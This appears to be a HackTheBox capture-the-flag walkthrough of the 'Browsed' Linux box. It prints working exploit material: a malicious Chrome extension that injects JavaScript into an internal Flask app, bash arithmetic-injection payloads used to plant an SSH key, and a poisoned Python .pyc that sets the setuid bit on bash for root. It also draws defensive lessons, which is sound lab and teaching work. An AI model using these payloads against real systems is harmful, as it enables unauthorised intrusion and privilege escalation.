





# HackTheBox — Browsed Walkthrough

Browsed is a medium Linux box that forces you to think like a browser. The attack chain starts by weaponizing a Chrome extension upload feature to inject JavaScript into an internal web app, triggering a bash arithmetic injection for code execution. From there, a world-writable `__pycache__` directory hands you root via Python bytecode poisoning. Every step requires understanding *why* the vulnerability works — surface-level intuition won't get you far here.

---

## Overview

- **IP:** <TARGET>
- **OS:** Linux (Ubuntu)
- **Difficulty:** Medium

---

## Reconnaissance

### Port Scan

Starting with the usual nmap sweep:

```bash
nmap -sC -sV -oA nmap/browsed <TARGET>
```




Two services — SSH and a web server. Nothing exotic yet, but SSH being available is useful to keep in mind once we have credentials or a key.

### Web Enumeration

Adding `browsed.htb` to `/etc/hosts` and browsing to port 80 reveals a static HTML5 UP template for a "browser-focused company." Not much here on its own, but two pages stand out immediately:

- **`/samples.html`** — three sample Chrome extensions available for download: Fontify, ReplaceImages, and Timer
- **`/upload.php`** — a form to upload Chrome extensions as `.zip` files, with a note that "a developer will load your extension in Chrome and provide feedback"

That second page is the crux of everything. The upload endpoint requires `Content-Type: application/zip` — if you forget that header, you get "Invalid file type or size." Chrome stdout/stderr from the extension load is viewable at `upload.php?output=1` with your session cookie, which is how we'll observe command execution results.

While poking at the main site, virtual host enumeration surfaces a second host: `browsedinternals.htb`. This resolves to the same IP but proxied through nginx to a **Gitea** instance on port 3000. Gitea version 1.24.5, with a user `larry` who has a repository called `MarkdownPreview`.

Crucially, **registration is open** on Gitea. I registered an account (`pwned:Pwned123!`) and created an API token, which will come in handy for API calls later.

### The Internal Flask App

Digging into larry's `MarkdownPreview` repository reveals the source code for an internal **Flask application** running on `localhost:5000`. It's a markdown previewer with two interesting routes:

1. **POST `/submit`** — accepts markdown, converts it to HTML, saves the result in `files/`
2. **GET `/routines/<rid>`** — calls `subprocess.run(["./routines.sh", rid])` and runs one of several maintenance routines (clean tmp, backup, rotate logs, etc.)

That `routines.sh` script is where things get interesting. Here's the relevant check inside it:

```bash
if [[ "$1" -eq 0 ]]; then
    clean_tmp
elif [[ "$1" -eq 1 ]]; then
    backup
# ...
fi
```

Bash's `-eq` operator evaluates its operands as **arithmetic expressions**. If you pass `a[$(command)]`, bash performs command substitution to evaluate the array index — executing `command` in the process. This is a classic bash arithmetic injection, and it works *even though* `subprocess.run` is called without `shell=True`, because bash itself is the interpreter doing the evaluation.

The Flask app runs as `larry` and its files live in `/home/larry/markdownPreview/`.

### Mapping Chrome's Behavior

The Chrome extension upload feature is the bridge between us and the internal Flask app. From the Chrome stdout output (visible at `upload.php?output=1`), I learned that:

- Chrome runs as `www-data`
- The browser navigates to both `http://browsedinternals.htb/` (Gitea) and `http://localhost/` (the main site) after loading an extension
- The browser is **not authenticated** to Gitea, so exploiting Gitea directly from a content script won't work

The Gitea CSP is restrictive about inline scripts, but it does allow scripts from `localhost:*` and `127.0.0.1:*`. That's the key — the Flask app on `localhost:5000` is within the CSP's allowed origins.

---

## Foothold

### The Attack Chain

The full chain is:

1. Craft a malicious Chrome extension with a **background service worker**
2. Service worker opens a tab to `http://127.0.0.1:5000/` (Flask app)
3. Use `chrome.scripting.executeScript` to inject JavaScript into that tab
4. Injected JS fetches `http://127.0.0.1:5000/routines/<payload>` with the arithmetic injection payload
5. `routines.sh` executes our command substitution as `larry`
6. Write output to a file, copy it to the `files/` directory, read it via `/view/`

A few things I tried that didn't work before landing on this:

- **Inline script injection via content script** → blocked by Gitea's CSP
- **Background service worker fetching the attacker IP directly** → outbound connections to the VPN range were firewalled
- **Content script with `world: "MAIN"`** → works for accessing page context, but the browser isn't authenticated to Gitea so there's nothing useful to steal

The key insight is that `chrome.scripting.executeScript` runs code *inside a tab's page context*, bypassing CSP restrictions that would block injected `<script>` tags. The service worker opens the tab, then injects the payload.

### Building the Extension

Here's the `manifest.json` for the malicious extension:

```json
{
  "manifest_version": 3,
  "name": "Fetcher",
  "version": "1.0",
  "background": {
    "service_worker": "background.js"
  },
  "permissions": ["tabs", "scripting"],
  "host_permissions": ["http://127.0.0.1/*", "http://localhost/*"]
}
```

And the `background.js` service worker:

```javascript
chrome.tabs.onUpdated.addListener(function(tabId, changeInfo, tab) {
  if (changeInfo.status === 'complete' && tab.url && tab.url.startsWith('http://127.0.0.1:5000')) {
    chrome.scripting.executeScript({
      target: { tabId: tabId },
      func: () => {
        fetch('http://127.0.0.1:5000/routines/a[$(id>o.html)]')
          .then(() => fetch('http://127.0.0.1:5000/routines/a[$(cp${IFS}o.html${IFS}files)]'))
      }
    });
  }
});

chrome.tabs.create({ url: 'http://127.0.0.1:5000/' });
```

There's an important constraint here: Flask's default **string URL converter rejects forward slashes** in path parameters. This means I can't use any literal `/` in the `<rid>` parameter. To work around this:

- Use `$HOME` instead of `/home/larry`
- Use `${IFS}` instead of spaces
- Use relative paths wherever possible
- For cases that need an explicit slash: `$(printf '\x2f')` constructs one dynamically

### Getting Command Output

The first payload writes `id` output to `o.html` in the current working directory, then copies it to the `files/` directory (which Flask serves via `/view/`):

```
/routines/a[$(id>o.html)]
/routines/a[$(cp${IFS}o.html${IFS}files)]
```

Visiting `http://127.0.0.1:5000/view/o.html` confirms execution as `larry`.




### Getting a Shell

With confirmed RCE as `larry`, I generated an SSH keypair on the target and added the public key to larry's `authorized_keys`:

```
# Generate keypair (no slashes needed — relative path works)
a[$(ssh-keygen${IFS}-t${IFS}ed25519${IFS}-f${IFS}mykey${IFS}-N${IFS}'')]

# Append public key to authorized_keys
a[$(cat${IFS}mykey.pub>>$HOME$(printf '\x2f').ssh$(printf '\x2f')authorized_keys)]
```

Then read the private key back through the `/view/` endpoint:

```
a[$(cp${IFS}mykey${IFS}files)]
```

With the private key saved locally:

```bash
chmod 600 /tmp/browsed_key
ssh -i /tmp/browsed_key larry@<TARGET>
```




---

## Privilege Escalation

### Enumeration

First thing after landing as `larry` — check sudo permissions:

```bash
sudo -l
```




Interesting. Let's look at what that script does:

```python
#!/usr/bin/env python3
from extension_utils import validate_manifest, clean_temp_files
import sys
import os

# ... validates a Chrome extension directory
```

It imports from `extension_utils` — a local module in `/opt/extensiontool/`. Now let's check the permissions on that directory:

```bash
ls -la /opt/extensiontool/
```

```
drwxr-xr-x  3 root root 4096 Jan 10 12:00 .
drwxr-xr-x 14 root root 4096 Jan 10 12:00 ..
drwxrwxrwx  2 root root 4096 Jan 10 12:00 __pycache__
-rwxr-xr-x  1 root root 1842 Jan 10 12:00 extension_tool.py
-rw-r--r--  1 root root  934 Jan 10 12:00 extension_utils.py
```

The `__pycache__` directory is **world-writable** (`drwxrwxrwx`). Python's import system checks for a compiled `.pyc` bytecode file in `__pycache__` before loading the source `.py` file. If we can plant a malicious `.pyc` that passes Python's validation check, it'll execute as root.

### Crafting the Malicious `.pyc`

Python validates `.pyc` files using a header that includes a magic number, flags, and either a hash or a timestamp+size of the source file. The timestamp-based validation (the default) checks the source file's **mtime** and **size** against values stored in the `.pyc` header.

First, get the metadata of the real `extension_utils.py`:

```bash
stat /opt/extensiontool/extension_utils.py
```

```
  File: /opt/extensiontool/extension_utils.py
  Size: 934       Modify: 2026-01-10 12:00:00.000000000 +0000
```

Then craft a Python script that produces the malicious module — keeping the original functions intact (so the import doesn't fail) but adding a payload at module level:

```python
import os

def validate_manifest(path):
    # ... (original implementation preserved)
    pass

def clean_temp_files(path):
    # ... (original implementation preserved)
    pass

# Payload executes at import time
os.system("chmod +s /bin/bash")
```

Compile it, then patch the `.pyc` header with the correct mtime (as a 32-bit little-endian integer) and source size:

```python
import struct
import time

with open('extension_utils.pyc', 'r+b') as f:
    f.seek(8)  # Skip magic number (4 bytes) + flags (4 bytes)
    mtime = int(time.mktime(time.strptime("2026-01-10 12:00:00", "%Y-%m-%d %H:%M:%S")))
    f.write(struct.pack('<I', mtime))   # Source mtime
    f.write(struct.pack('<I', 934))     # Source size
```

Drop the patched `.pyc` into `__pycache__` with the correct filename format (`extension_utils.cpython-312.pyc` for Python 3.12):

```bash
cp extension_utils.cpython-312.pyc /opt/extensiontool/__pycache__/
```

### Getting Root

Run the sudo command to trigger the import:

```bash
sudo /opt/extensiontool/extension_tool.py --ext Fontify
```

Python loads our poisoned `.pyc`, runs `os.system("chmod +s /bin/bash")` at import time as root, then:

```bash
bash -p
```




---

## Lessons Learned

**1. Chrome extension uploads are a serious attack surface.**
A service worker with `tabs` and `scripting` permissions can open tabs to internal hosts and inject JavaScript into them. `chrome.scripting.executeScript` runs code in the page's context, not the extension's — this sidesteps CSP restrictions that would block injected `<script>` tags. If an application lets users upload Chrome extensions and then loads them in a browser, treat it as equivalent to letting users run arbitrary JavaScript against any internal service the browser can reach.

**2. Bash arithmetic injection via `-eq`.**
`[[ "$1" -eq 0 ]]` in bash treats its operands as arithmetic expressions. The construct `a[$(command)]` causes bash to evaluate `command` as an array index — triggering command substitution. This fires inside bash's arithmetic evaluator regardless of how the calling process launched bash, so `subprocess.run(["./routines.sh", payload])` without `shell=True` is still exploitable if the shell script itself uses `-eq`.

**3. Flask string converter rejects slashes.**
Flask's default `<string:param>` URL converter treats `/` as a path separator and will return 404 for values containing slashes. When crafting payloads for path parameters, build paths using `$HOME`, relative paths, `${IFS}` for spaces, and `$(printf '\x2f')` to generate literal slashes dynamically.

**4. Python `__pycache__` poisoning.**
World-writable `__pycache__` directories are a privilege escalation vector when a privileged process imports Python modules. Python prefers `.pyc` bytecode over source if the header's mtime and source size match — both are attacker-controlled. Preserve the original module's exports to avoid import errors, add your payload at module scope so it runs on import, and patch the header to match the source file's `stat` output.

**5. Always check `__pycache__` permissions.**
It's easy to lock down a `.py` file but forget the `__pycache__` directory next to it. Tools like `linpeas` will flag world-writable directories, but it's worth checking manually in paths referenced by sudo rules. This is conceptually similar to the writable Docker socket escalation we abused in [AirTouch](/writeups/retired/airtouch/) — a side channel into a privileged process that the main file permissions don't protect.

**6. Chrome's Content-Type enforcement.**
The upload endpoint validates `Content-Type: application/zip` server-side, not just by file extension. Always set the MIME type explicitly when scripting file uploads — `curl`'s default multipart type won't match, and you'll waste time wondering why the server rejects valid zip files.
